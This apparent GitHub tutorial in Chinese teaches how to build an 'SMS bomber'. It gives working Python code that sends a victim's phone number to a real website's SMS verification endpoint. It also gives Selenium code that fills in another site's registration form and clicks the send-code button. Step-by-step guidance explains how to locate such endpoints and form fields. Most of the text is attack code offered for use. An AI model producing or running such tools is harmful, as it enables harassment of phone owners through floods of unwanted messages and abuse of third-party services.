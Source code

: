 # 短信轰炸程序解析

该教程以Python为例介绍了两种常用的短信轰炸方式

## 方法一：调用网站的短信接口

该方法的本质是调用了网站发送短信的接口，模拟了一个HTTP请求（即模拟一个post或者一个get请求）

### 示范代码如下

~~~python
import requests

headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}
def iask(phone_number):
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)
    print("iask网站",response.text)
~~~

### 1、准备requests包

pip命令下载所需的requests包

~~~python
pip install requests
~~~

### 2、代码解析

#### （1）第一段代码解析

~~~python
import requests #导入所需要的包

 #构造一个报文头假装自己是一个浏览器
 #User-Agnet是浏览器的意思，我们从浏览器抄写一手
headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}

~~~

#### （2）第二段代码解析

**找接口（以爱问知识网为例）**<br/>
网址如下：<https://iask.sina.com.cn>

**我们模拟注册过程**<br/>
![我们模拟注册过程](./imgfile/1.png)<br/>

**寻找所需的数据**<br/>
![寻找所需的数据](./imgfile/2.png)<br/>
![寻找所需的数据](./imgfile/3.png)<br/>
![寻找所需的数据](./imgfile/4.png)<br/>
**根据信息，构造自己的HTTP报文，模拟注册**

~~~python
def iask(phone_number):
    #这是我们刚才找到的表单数据
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    #刚才我们发现请求时post请求，所以我们试用requests.post方法
    #把我们刚才造好的headers和data放入请求中
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)

    #得到一个返回值，可以查看是否成功
    print("iask网站",response.text)
~~~

## 方法二：模拟点击

**为什么我们要通过模拟点击的方法实现一个短信轰炸？**
因为很多网站发送的报文信息都是加密的，我们不知道他们的加密方式，所以我们没法模拟注册

### 示范代码如下

~~~python
from selenium import webdriver
def wangke(phone_number):
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()
    browser.close()
~~~

### 1、准备环境

#### （1）下载selenium包

~~~python
pip install selenium
~~~

#### （2）下载浏览器的驱动（以Eege为例）

* Edge驱动下载地址，根据自己的浏览器下载所需的驱动
驱动下载地址：<https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/>

* 解压到一个合适的位置，我们一会通过绝对路径的方式引用该驱动

### 2、代码解析

#### （1）第一段代码解析

~~~python
 #导入我们所需要的包selenium
from selenium import webdriver

def wangke(phone_number):
    #根据绝对路径导入驱动
    #也可以配置环境变量的方式，这里以绝对路径演示
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')

    #网站的网址
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)

    #定位输入手机号的位置，并输入手机号
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)

    #定位发送验证码按钮，点击按钮
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()

    #关闭浏览器
    browser.close()
~~~

#### (2)定位方法解析（需要基本的HTML基础知识）

* 定位按钮<br/>
![定位按钮](./imgfile/5.png)<br/>

* 定位手机号输入框<br/>
![定位手机号输入框](./imgfile/6.png)<br/>

* 定位发送验证码按钮<br/>
![定位发送验证码按钮](./imgfile/7.png)
